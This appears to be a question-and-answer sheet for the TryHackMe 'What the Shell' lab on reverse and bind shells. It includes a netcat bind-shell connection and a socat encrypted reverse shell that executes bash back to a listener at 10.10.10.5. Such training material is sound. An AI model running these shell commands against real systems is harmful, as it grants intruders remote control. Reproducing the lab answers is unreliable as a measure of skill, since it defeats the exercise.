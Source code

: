 # TryHackMe What the Shell
## Types of shell
1.  Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?l
	R
2. You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)
	N
3. When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?
	T
## Netcat
1.  Which option tells netcat to listen?

	-l
2. How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?

	nc 10.10.10.11 8080
## Netcat Shell Stabilisation
1.  How would you change your terminal size to have 238 columns?

 	stty cols 238
2. What is the syntax for setting up a Python3 webserver on port 80?

	sudo python3 -m http.server 80

## Socat
1. How would we get socat to listen on TCP port 8080?
	TCP-L:8080
## Socat Encrypted Shells
1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
	
	socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:'tty',raw,echo=0
2. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

	socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane